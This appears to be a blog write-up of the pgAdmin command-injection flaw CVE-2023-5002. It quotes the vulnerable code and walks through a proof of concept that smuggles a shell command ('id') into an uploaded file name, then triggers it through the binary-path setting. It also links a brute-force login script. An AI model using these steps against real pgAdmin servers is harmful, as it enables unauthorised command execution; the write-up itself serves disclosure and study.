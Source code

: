 ```yaml
---
title: PgAdmin CVE-2023-5002 exploitation
date: 2024-03-10 12:00:00 +00:00
tags: [hack, exploit, rce]
description: La la la short description for rss
---
```


# CVE-2023-5002

## Description

[This vulnerability][1] is a continuation of vulnerability [CVE-2022-4223][2] ([there is a good article][3] about this vulnerability).

[A security researcher][4] found the vulnerability and [created a pull request][5] with a fix and example of command injection:
```python
 >>> subprocess.getoutput(r'echo "{0}"'.format("Hello $(whoami)").replace('"', '""'))
Hello gronke
```

The problem is that pgadmin allows you to check the existence of utilities by passing the path to them:
<img src="pgadmin-1.png">

in this case, [validation is carried out][6] only for the existence of such a path:
```python
...
    # if path doesn't exist raise exception
    if not os.path.exists(binary_path):
        current_app.logger.warning('Invalid binary path.')
        raise Exception()
    # Get the output of the '--version' command
    version_string = \
        subprocess.getoutput('"{0}" --version'.format(full_path))
...
```

For such a check to pass, the file must exist in the system. Fortunately, pgadmin has a storage manager that allows you to upload any files.

## Proof of Concept

We have everything to exploit the vulnerability.

We should start by preparing a file that needs to be uploaded to `pgadmin`. Since command execution occurs when the file name puts in `subprocess.getoutput`, the file must simultaneously be a valid path and command.
```bash
$ touch 'test";id;#"'
$ python3
>>> import os, subprocess
>>> os.path.exists('test";id;#"')
True
>>> subprocess.getoutput('"{0}" --version'.format('test";id;#"'))
uid=1000(user) gid=1000(user) groups=1000(user)
```

After preparing the file, we need to upload it `tools -> storage manager -> upload`:
<img src="pgadmin-2.png">

Our file loaded, but the double quotes were removed:
<img src="pgadmin-3.png">

We also need to rename the file to return double quotes instead of url encoded chars:
<img src="pgadmin-4.png">

By default, `pgadmin` saves all downloaded files in `/var/lib/pgadmin/storage/user@domain.com` but with the `@` character replaced by `_`.

You can find the exact path in the settings (they can be read by an authorized user via the `API`):
```python
...
STORAGE_DIR = "/var/lib/pgadmin/storage"
...
```

And finally run our file for execution `file -> preference -> binary path` used full path to our file `/var/lib/pgadmin/storage/user_domain/test";id;#"`:
<img src="pgadmin-5.png">

## Bonus parts

### CVE-2024-2044

Just a week ago (from the moment of writing this article) [an issue was created][97] in pgadmin with a new RCE ([backup link][98]).

### Brute-force login

As a bonus to vulnerability, [get a script][99] for brute force login in PgAdmin as a gift.


[1]: https://nvd.nist.gov/vuln/detail/CVE-2023-5002
[2]: https://nvd.nist.gov/vuln/detail/CVE-2022-4223
[3]: https://frycos.github.io/vulns4free/2022/12/02/rce-in-20-minutes.html
[4]: https://github.com/gronke
[5]: https://github.com/pgadmin-org/pgadmin4/pull/6772
[6]: https://github.com/pgadmin-org/pgadmin4/blob/c08953b9b386e302835585bded6da4df70358e71/web/pgadmin/misc/__init__.py#L268
[97]: https://github.com/pgadmin-org/pgadmin4/issues/7258
[98]: https://gist.github.com/dorosch/748e62c23b25003c830ed1297ff292c9
[99]: https://gist.github.com/dorosch/8320a91106d0684d6d2784def2d0cede
